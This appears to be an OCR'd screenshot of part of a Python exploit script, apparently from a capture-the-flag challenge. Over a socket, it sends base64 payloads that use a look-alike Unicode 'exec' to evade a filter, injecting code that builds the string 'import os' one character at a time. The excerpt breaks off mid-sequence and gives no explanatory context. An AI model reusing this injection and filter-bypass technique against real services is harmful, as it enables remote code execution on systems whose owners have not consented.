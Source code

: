 ```py
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iYSInKX0=") # a += "a"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibCInKX0=") # a += "l"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iICInKX0=") # a += " "
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibyInKX0=") # a += "o"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0icyInKX0=") # a += "s"
time.sleep(1)
print(con.recv(4096).decode())



con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iOyInKX0=") # a += ";"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iaSInKX0=") # a += "i"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibSInKX0=") # a += "m"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0icCInKX0=") # a += "p"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibyInKX0=") # a += "o"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iciInKX0=") # a += "r"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0idCInKX0=") # a += "t"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iICInKX0=") # a += " "
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibyInKX0=") # a += "o"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0icyInKX0=") # a += "s"
time.sleep(1)
print(con.recv(4096).decode())
```